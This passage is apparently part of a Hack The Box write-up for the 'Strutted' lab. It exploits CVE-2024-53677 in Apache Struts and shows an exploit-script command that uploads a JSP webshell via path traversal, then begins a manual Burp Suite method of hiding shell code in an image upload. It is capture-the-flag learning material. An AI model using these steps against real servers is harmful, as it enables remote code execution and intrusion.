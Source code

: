 # CVE-2024-53677
`CVE-2024-53677 – Critical Apache Struts Remote Code Execution Vulnerability`
There is a good exploit script from 
`https://github.com/TAM-K592/CVE-2024-53677-S2-067.git`
`https://github.com/EQSTLab/CVE-2024-53677.git`

By run the exploit script, it hints us the file upload is successful, but can't find the uploaded page
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Strutted/CVE-2024-53677-S2-067]
└─$ python3 S2-067.py -u http://strutted.htb --upload_endpoint upload.action --files webshell.jsp --destination ../../webshell.jsp
[INFO] Uploading files to http://strutted.htb/upload.action...
[SUCCESS] File webshell.jsp uploaded successfully: ../../webshell.jsp
[INFO] Verifying uploaded file: http://strutted.htb/webshell.jsp
[INFO] File not accessible. HTTP Status: 404
```

So I would use `burpsuite` to exploit it manually and follow the article of `Tanium`
`https://help.tanium.com/bundle/CVE-2024-31497/page/VERT/CVE-2024-53677/Understanding_Apache_Struts.htm`

Firstly, I would like upload a normal test picture to help us upload a web-shell:
![](images/Pasted%20image%2020250724155957.png)

Secondly, we can delete some picture strings and add some jsp shell code 